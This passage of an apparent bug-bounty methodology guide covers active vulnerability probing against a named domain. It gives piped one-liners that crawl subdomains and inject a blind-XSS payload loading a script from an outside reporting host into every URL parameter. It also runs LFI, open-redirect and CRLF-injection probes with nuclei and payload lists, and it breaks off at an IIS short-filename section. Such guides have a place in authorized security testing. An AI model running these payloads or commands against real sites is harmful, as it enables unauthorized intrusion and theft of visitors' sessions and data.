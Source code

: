 ### Phase 4: Active Probing for Common Vulnerabilities
This is a chained command for maximum efficiency.

### **4.1: XSS (Cross-Site Scripting)**
```bash
subfinder -d gravexlabs.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=[https://xss.report/c/kuwguap](https://xss.report/c/kuwguap)></script>' -parameters
```

Let's break it down:

* `subfinder | httpx-toolkit | katana`: We find, validate, and crawl for URLs in one go.

* `| gf xss`: We pipe the URLs to `gf` (grep-friend). Using its `xss` patterns, it filters for URLs that have parameters likely to be vulnerable to XSS (e.g., `?redirect=`, `?q=`, `?next=`).

* `| bxss`: This final pipe sends the highly-qualified URLs to `bxss`, which automates the testing by injecting our custom payload (which points to an XSS reporting service) into every parameter.

### **4.2: LFI (Local File Inclusion) & Open Redirects**
We use a similar `gf`-powered methodology for other bug classes.

# LFI
```bash
cat allurls.txt | gf lfi | nuclei -t ~/nuclei-templates/http/vulnerabilities/lfi/
```

# Open Redirect
```bash
cat allurls.txt | gf redirect | openredirex -p payloads.txt
```

For LFI, we find potential patterns with `gf` and then use Nuclei's powerful LFI templates to attempt exploitation safely.

For Open Redirects, we find potential URLs with `gf` and then use `openredirex` with a list of crafted payloads to confirm the vulnerability.

### **4.3: CRLF Injection**
CRLF injection can lead to response splitting and other attacks. Nuclei has excellent templates for this.

```bash
cat subdomains_alive.txt | nuclei -t ~/nuclei-templates/http/vulnerabilities/crlf-injection.yaml -v
```
We feed our live hosts directly to Nuclei and let its specialized template handle the complex injection tests.

### **4.4: Server-Specific Checks: IIS Short Filename**
If we identify a Microsoft IIS server, we run a specialized check. The "short filename" vulnerability can allow an attacker to guess the names of hidden files and folders.
